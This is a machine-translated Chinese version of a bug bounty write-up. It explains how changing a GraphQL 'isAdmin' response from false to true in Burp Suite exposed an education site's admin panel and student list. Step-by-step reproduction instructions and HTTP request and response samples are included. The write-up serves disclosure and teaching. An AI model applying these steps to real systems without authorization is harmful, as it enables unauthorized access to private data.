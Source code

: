 # 另一个管理面板

> 原文：<https://infosecwriteups.com/another-admin-panel-e0489dc76678?source=collection_archive---------0----------------------->

祝你平安。(愿你平安)。

我带着另一篇报道回来了，我希望你们正在狩猎并获得赏金。这一次，我能够在 [graphql](https://graphql.org/) 的帮助下访问管理面板。我们开始吧。

在这篇文章中，我以 target.com 为例。我正在逐个测试 target.com 的子域，然后我来到了 education.target.com 的这个子域。这是某种教育页面，学生可以登录并观看讲座。

**攻击**

当我作为普通用户登录时，我看到登录功能和学生教育页面可用的页面，我打开我的 burp 套件并刷新页面，以查看对服务器的请求。在那之后，可以看到 [graphql](https://graphql.org/) 由于某种原因向 api 端点发出请求。

**请求**

```
POST /api/graphql HTTP/1.1Host: education.target.com
                                                                           User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/91.0
Accept: */*Cookie: a0:state=YOUR Cookie{"operationName":"isAdmin","variables":{},"query":"query isAdmin {\n  isAdmin\n}\n"}
```

我在 burp suite 中右键单击请求->执行拦截->对此请求的响应

**回应**

```
HTTP/1.1 200 OK
Server: nginx/1.19.1
Date: Sat, 04 Sep 2021 04:47:05 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 27
Connection: close
access-control-allow-origin: *
access-control-allow-credentials: true
etag: W/"1b-fPOq3WJkZQ0rkaalpPwLwZziKSQ"
Vary: Accept-Encoding
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"data":{"isAdmin":false}} <-- I just change this to this -> isAdmin":true
```

我可以进入管理面板。在那里，我可以添加讲座并查看所有学生的名单。

# 复制步骤

1.  转到这个网址 education.target.com
2.  使用您的凭据登录:
3.  之后，刷新页面并在 burp suite 中捕获请求，转发每个请求，直到您看到以下请求:

```
POST /api/graphql HTTP/1.1Host: education.target.com
                                                                           User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/91.0
Accept: */*Cookie: a0:state=YOUR Cookie{"operationName":"isAdmin","variables":{},"query":"query isAdmin {\n  isAdmin\n}\n"}
```

4.右键单击请求->拦截->响应此请求

5.之后，您将在您的打嗝套件中看到以下回应:

```
HTTP/1.1 200 OK
Server: nginx/1.19.1
Date: Sat, 04 Sep 2021 04:47:05 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 27
Connection: close
access-control-allow-origin: *
access-control-allow-credentials: true
etag: W/"1b-fPOq3WJkZQ0rkaalpPwLwZziKSQ"
Vary: Accept-Encoding
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"data":{"isAdmin":false}}
```

6.将“isAdmin: false”更改为“isAdmin: true”并发送请求

7.回到你的浏览器，你会在主页上看到管理面板。

主要漏洞存在于 [graphql](https://graphql.org/) 中。仅仅因为 [graphql](https://graphql.org/) 实现中的错误配置，攻击者就能够访问管理面板。

# 外卖食品

始终检查登录页面上的每个请求，尤其是 [graphql](https://graphql.org/) 页面。

由于公司隐私，我没有附上管理面板页面的截图。